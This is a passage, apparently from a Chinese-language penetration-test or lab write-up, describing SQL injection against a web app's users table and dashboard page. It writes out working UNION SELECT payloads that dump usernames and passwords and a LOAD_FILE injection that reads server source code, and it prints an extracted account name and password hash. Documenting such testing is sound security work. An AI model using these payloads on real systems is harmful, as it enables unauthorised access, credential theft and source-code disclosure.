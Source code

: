 ![](img/12-2-03.png)

根据列名称，注入 `' UNION SELECT 1,2,id,username,password from users-- -`，得到了一个 ID 为 1 的账户 `adam` 及其密码 `1be9f5d3a82847b8acca40544f953515`。综上，该网页应用存在着极大的信息泄露的风险。

![](img/12-2-04.png)

#### 2.2  源代码泄露

在我找出 `/dashboard/dashboard.php` 网页的完整路径之后，尝试注入 `SFSAD' UNION SELECT 1, LOAD_FILE("/VAR/WWW/HTML/DASHBOARD/DASHBOARD.PHP"), DATABASE(), USER(), 5-- -`，结果如下：

![](img/12-2-05.png)